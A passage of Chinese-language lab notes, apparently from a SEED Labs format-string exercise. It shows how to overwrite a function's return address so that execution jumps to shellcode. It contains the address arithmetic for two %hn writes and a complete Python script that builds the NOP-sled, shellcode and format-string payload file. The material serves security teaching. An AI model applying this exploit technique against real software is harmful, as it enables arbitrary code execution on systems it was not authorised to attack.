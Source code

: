 (容器重启了，改变了地址，所以会和上面地址不一样)

![image-20220430134807059](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220430134807059.png)

**思路：把`myprintf`的return address改成shellcode的地址**

- `myprintf()`的返回地址：$0xffffd3c8+0x4=0xffffd3cc$

- `shellcode`填充在` buf`的最顶上：

  ```python
  # Put the shellcode somewhere in the payload
  start = 1500-len(shellcode)              # Change this number
  content[start:start + len(shellcode)] = shellcode
  print(start)
  ```

  打印start，获得`shellcode`的起始位置是：$buf\ addr+1364=0xffffd4a0+1364=0xffffd9f4$

  ![image-20220430135300950](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220430135300950.png)

- 要把$0xffffd3cc$改成$0xffffd9f4$，数字比较大，像上面task3.c一样分成两步：
  - $0xffff-4-4-4-62\times8=65027$，所以`s = "%.8x"*62 + "%.65027x" + "%hn"`
  - $0x1d9f4-0xffff=55797$，所以`s += "%.55797x" + "%hn"`（利用整数溢出）

具体Payload：

$myprintf高两位的地址+junk(4B)+myprintf低两位的地址+format\ string+NOP*n+shellcode$

```python
N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

# Put the shellcode somewhere in the payload
start = 1500-len(shellcode)              # Change this number
content[start:start + len(shellcode)] = shellcode
print(start)	# start=1364

############################################################

# This line shows how to store a 4-byte integer at offset 0
number = 0xffffd3cc  # myprintf return address低四位 0xd3c8
content[8:12] = (number).to_bytes(4, byteorder='little')
number2 = number+2  # 高四位 0xffff	
content[0:4] = (number2).to_bytes(4, byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8] = ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*62 + "%.65027x" + "%hn"	# 先改成0xffff
s += "%.55797x" + "%hn"	# 再改成0xd

# The line shows how to store the string s at offset 8
fmt = (s).encode('latin-1')
content[12:12+len(fmt)] = fmt
############################################################

# Save the format string to file
with open('badfile', 'wb') as f:
    f.write(content)
```
